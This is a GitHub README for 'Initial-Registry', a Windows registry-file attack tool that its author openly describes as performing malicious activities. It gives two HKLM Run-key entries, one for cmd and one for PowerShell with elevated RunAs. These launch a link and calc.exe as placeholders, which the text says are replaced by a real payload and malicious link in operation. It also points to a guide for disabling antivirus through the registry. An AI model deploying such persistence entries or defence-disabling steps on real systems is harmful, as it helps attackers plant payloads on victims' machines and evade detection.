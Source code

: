# Initial-Registry
It is a simple registry file that performs malicious activities when the refresh button is pressed, Such as start a malicious link, making an execution for payload, or running a malicious command line in CMD or PowerShell
![1706749031823](https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/f5c7acd0-77a2-4410-80c4-4f8c095e7dee)

Specifically through the registry.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="cmd /c start http://www.example.com && calc.exe"

The harmful activities are carried out through the CMD, but the operator may also need to execute these activities from the PowerShell and not the CMD, which is why I put this other registry as an alternative to the CMD.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="powershell -Command \"Start-Process 'http://www.example.com'; Start-Process 'calc.exe' -Verb RunAs\""


Of course, in the real operation, Calc.exe will be replaced by payload, and example.com will be replaced by the malicious link. with all these malicious activities, you may be exposed to detection, and also since we use the Windows Registry in this operation, we may also use the Windows Registry or after the Windows registry to create a disable for defenses


https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/6e5b2591-3953-4a6b-b05f-81a405e8bf80

I used this site for resources to desible defenses through the Windows registry by setting Windows Registry  Activity in the disable.txt
https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/#disable-antivirus-and-security

Note: After clicking on the registry file and setting the payload input, you may need to restart the Windows machine so that you can run the exploit.




